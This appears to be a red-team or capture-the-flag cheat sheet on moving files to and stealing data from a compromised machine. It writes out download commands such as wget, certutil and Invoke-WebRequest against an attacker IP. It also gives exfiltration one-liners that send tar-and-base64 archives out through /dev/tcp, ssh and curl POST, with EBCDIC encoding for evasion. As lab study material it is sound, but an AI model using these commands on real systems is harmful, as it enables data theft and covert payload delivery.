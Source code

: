 For the sake of example, everything labeled as a "task" can be considered the data being exfiltrated. 

> [!danger] Detection Risk
> Don't burn important host IPs onto a blacklist trying to download autopwn.exe or something stupid. Be cognizant of your situation, and act accordingly. Run stuff by more senior teammates if you don't know for sure. 

[[#File Transfers]] are TO a target machine, [[#Exfiltration]] is FROM a target machine. 

# File Transfers
## HTTP
On the attacker machine:
```shell
python -m SimpleHTTPServer <portno> # Start a python 2 http server in cwd
python3 -m http.server <portno> # start a python3 http server in cwd
```

On the victim machine:
```bash
(Linux)
wget http://<attackerIP>:<portno>/FileToTransfer
curl -o <outfile> http://<attackerIP>:<portno>/FileToTransfer
```


```powershell
(Windows)
# Curl
curl http://<attackerIP>:<portno>/FileToTransfer -o <outfile>

# Wget
wget http://<attackerIP>:<portno>/FileToTransfer

# Certutil
certutil.exe -urlcache -f http://<attackerIP>/FileToTransfer <outfile>

# Powershell
Invoke-WebRequest -Uri "http://<attackerIP>:<portno>/FileToTransfer" -OutFile <outfile>
```

## SMB
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

Here you can use File Explorer or [[net]] on Windows to map the drive and [[Smbclient]] on Linux. 

# Exfiltration
## Raw TCP Sockets
[[Netcat]] Example Command: 
```shell
nc -lvp 8080 > /tmp/task4-creds.data # Receive
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ATK_IP>/8080 # Send
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar # Recombine
tar xvf task4-creds.tar # Decompress
```

## SSH
```shell
tar cf - task5/ | ssh thm@<ATK_IP> "cd /tmp/; tar xpf -" # On victim machine
```

## HTTP
```shell
curl --data "file=$(tar zcf - task6 | base64)" http://<ATK_IP>/bogus.php
```
This will leave the data base64 encoded in apache's access.log. 
[[Neo-reGeorg]]

## ICMP
Ping has a data section we can use for exfil. Also see [[ICMPdoor]] for ICMP C2. 

## DNS
Add data as TXT record on a DNS server and retrieve with dig. [[Iodined]] for C2.

